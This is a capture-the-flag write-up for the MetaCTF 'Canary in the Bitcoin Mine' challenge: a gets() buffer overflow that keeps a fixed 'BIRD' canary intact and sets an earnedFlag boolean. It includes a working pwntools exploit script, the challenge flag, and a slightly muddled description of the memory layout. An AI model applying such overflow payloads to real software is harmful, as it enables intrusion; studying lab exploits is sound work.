

# Canary in the Bitcoin Mine - Writeup

---

## Challenge Description


---

## Exploit Demo

This demo shows the exploitation flow:


---

## Challenge Summary

This challenge simulates a buffer overflow scenario protected by a stack canary. The program reads user input into a fixed-size buffer using the unsafe gets() function. The buffer is followed by a canary value (0x44524942, representing "BIRD"), and a boolean flag earnedFlag.

If the input overwrites the canary, the program detects the corruption and exits. To earn the flag, the attacker must carefully overflow the buffer without corrupting the canary, and set the earnedFlag variable to true. Once set, the hidden win() function is triggered to print the flag from flag.txt.

## Binary Information

```bash
$ file canary_in_the_bitcoin_mine
```



```bash
$ pwn checksec canary_in_the_bitcoin_mine
```


---

## Static Analysis (CLion - JetBrains)

- The program declares a local struct `mineshaft` containing a 64-byte buffer `mine`, a 4-byte canary (`canary`), and a boolean flag (`earnedFlag`).
- The `gets()` function is used to read user input into `mine` without bounds checking, making it vulnerable to buffer overflow.
- The canary is initialized to `0x44524942` (`"BIRD"` in little-endian) and checked after input to detect overflow.
- If the canary value is modified, the program exits immediately.
- The boolean flag `earnedFlag` is initially `false`. The program checks it after input and calls `win()` to print the flag only if this flag is set to `true`.

  

- The overflow vulnerability can be exploited by overwriting memory **past the buffer but before the canary** to control `earnedFlag` without corrupting the canary.
- CLion’s debugger can help visualize the memory layout, allowing precise calculation of overflow offsets to manipulate `earnedFlag` safely.

  

  This analysis highlights a classic **stack buffer overflow with canary protection**, requiring careful input crafting to bypass the canary check and set `earnedFlag` to gain the flag.

  

---

## Exploit Strategy

Use a carefully crafted input to overflow the buffer and set the earnedFlag to true without overwriting the canary. This triggers the win() function and reveals the flag. Precise control is needed to avoid canary corruption while modifying adjacent memory.

## Exploit Code

```python
#!/usr/bin/env python3
# -*- coding: utf-8 -*-
# This exploit template was generated via:
# $ pwn template canary_in_the_bitcoin_mine --host host3.metaproblems.com --port 5980
from pwn import *

# Set up pwntools for the correct architecture
exe = context.binary = ELF(args.EXE or 'canary_in_the_bitcoin_mine')

# Many built-in settings can be controlled on the command-line and show up
# in "args".  For example, to dump all data sent/received, and disable ASLR
# for all created processes...
# ./exploit.py DEBUG NOASLR
# ./exploit.py GDB HOST=example.com PORT=4141 EXE=/tmp/executable
host = args.HOST or 'host3.metaproblems.com'
port = int(args.PORT or 5980)


def start_local(argv=[], *a, **kw):
    '''Execute the target binary locally'''
    if args.GDB:
        return gdb.debug([exe.path] + argv, gdbscript=gdbscript, *a, **kw)
    else:
        return process([exe.path] + argv, *a, **kw)

def start_remote(argv=[], *a, **kw):
    '''Connect to the process on the remote host'''
    io = connect(host, port)
    if args.GDB:
        gdb.attach(io, gdbscript=gdbscript)
    return io

def start(argv=[], *a, **kw):
    '''Start the exploit against the target.'''
    if args.LOCAL:
        return start_local(argv, *a, **kw)
    else:
        return start_remote(argv, *a, **kw)

# Specify your GDB script here for debugging
# GDB will be launched if the exploit is run via e.g.
# ./exploit.py GDB
gdbscript = '''
tbreak main
continue
'''.format(**locals())

#===========================================================
#                    EXPLOIT GOES HERE
#===========================================================
# Arch:     amd64-64-little
# RELRO:      Partial RELRO
# Stack:      No canary found
# NX:         NX enabled
# PIE:        PIE enabled
# Stripped:   No

io = start()

# shellcode = asm(shellcraft.sh())
# payload = fit({
#     32: 0xdeadbeef,
#     'iaaa': [1, 2, 'Hello', 3]
# }, length=128)
# io.send(payload)
# flag = io.recv(...)
# log.success(flag)

BUFFER = b'A' * 64
CANARY = b'BIRD'
EARNED_FLAG = b'true'

payload = flat(
        BUFFER,
        CANARY,
        EARNED_FLAG
)
io.sendline(payload)
io.recvuntil(b"Well done, you've earned the flag!")
io.recvline()
flag = io.recvline().strip()
log.success(f"FLAG : \033[1;33m{flag.decode()}\033[1;0m")


```

---

## Exploit Output


---

## Vulnerability Summary

The program uses the unsafe gets() function to read input into a fixed-size buffer. Although a stack canary protects against full overflow detection, it is possible to overflow just enough to overwrite the adjacent earnedFlag boolean without altering the canary. This allows attackers to bypass protections and trigger the hidden win() function to read the flag.

## Flag

```
MetaCTF{g0t_7h3_fl4g_4nd_s4v3d_7h3_canary}
```
